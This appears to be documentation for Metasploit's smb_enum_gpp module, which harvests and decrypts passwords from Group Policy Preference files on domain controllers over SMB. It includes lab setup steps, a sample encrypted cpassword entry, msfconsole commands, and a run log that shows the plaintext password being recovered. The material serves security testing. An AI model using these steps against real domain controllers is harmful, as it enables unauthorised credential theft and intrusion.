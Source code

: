 ## Vulnerable Application

This module enumerates files from target domain controllers and connects to them via SMB. It then looks for Group Policy
Preference XML files containing local/domain user accounts and passwords and decrypts them using Microsoft's public AES
key. This module has been tested successfully on a Win2k8 R2 Domain Controller.

### Test Environment

This vulnerability was patched in 2014 but Group Policy Preference files can still be found in modern environments. Because of that it is
necessary to have a means to test this vulnerability in a contrived way.

Starting from a Windows Server that has been configured as an Active Directory Domain Controller:
1. Navigate to: `%SystemRoot%\SYSVOL\sysvol\$domain\Policies` where `$domain` is the name of the domain.
1. Create a subfolder. These folders typically use UUIDs within braces (e.g. `{31B2F340-016D-11D2-945F-00C04FB984F9}`) but the name does not
   matter for testing purposes.
1. In the new a new file (and the necessary parent folders) `MACHINE\Preferences\Groups\Groups.xml`.
1. Place the contents below in the new `Groups.xml` file.

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
	<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="SuperSecretBackdoor" image="0" changed="2013-04-25 18:36:07" uid="{B5EDB865-34F5-4BD7-9C59-3AEB1C7A68C3}">
		<Properties action="C" fullName="" description="" cpassword="VBQUNbDhuVti3/GHTGHPvcno2vH3y8e8m1qALVO1H3T0rdkr2rub1smfTtqRBRI3" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" userName="SuperSecretBackdoor"/>
	</User>
</Groups>
```

This example XML data was taken from the unit test.

## Verification Steps
Example steps in this format (is also in the PR):

1. Start msfconsole
1. Do: `use auxiliary/scanner/smb/smb_enum_gpp`
1. Do: `set RHOSTS ...`
1. Do: `set SMBUser ...`
1. Do: `set SMBPass ...`
1. Do: `run`

### Windows Server 2019 (Test Setup)

The following example use the contrived setup from the "Test Environment" section.

```
msf6 auxiliary(scanner/smb/smb_enum_gpp) > use auxiliary/scanner/smb/smb_enum_gpp 
msf6 auxiliary(scanner/smb/smb_enum_gpp) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(scanner/smb/smb_enum_gpp) > set SMBUSER smcintyre
SMBUSER => smcintyre
msf6 auxiliary(scanner/smb/smb_enum_gpp) > set SMBPass Password1
SMBPass => Password1
msf6 auxiliary(scanner/smb/smb_enum_gpp) > run

[*] 192.168.159.10:445    - Connecting to the server...
[*] 192.168.159.10:445    - Mounting the remote share \\192.168.159.10\SYSVOL'...
[+] 192.168.159.10:445    - Found Policy Share on 192.168.159.10
[*] 192.168.159.10:445    - Parsing file: \\192.168.159.10\SYSVOL\msflab.local\Policies\fake\MACHINE\Preferences\Groups\Groups.xml
[+] 192.168.159.10:445    - Group Policy Credential Info
============================

 Name               Value
 ----               -----
 TYPE               Groups.xml
 USERNAME           SuperSecretBackdoor
 PASSWORD           Super!!!Password
 DOMAIN CONTROLLER  192.168.159.10
 DOMAIN             msflab.local
 CHANGED            2013-04-25 18:36:07
 NEVER_EXPIRES?     1
 DISABLED           0

[+] 192.168.159.10:445    - XML file saved to: /home/smcintyre/.msf4/loot/20200828163158_default_192.168.159.10_microsoft.window_053830.txt
[+] 192.168.159.10:445    - Groups.xml saved as: /home/smcintyre/.msf4/loot/20200828163158_default_192.168.159.10_smb.shares.file_279441.xml
[*] 192.168.159.10:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_enum_gpp) >
```
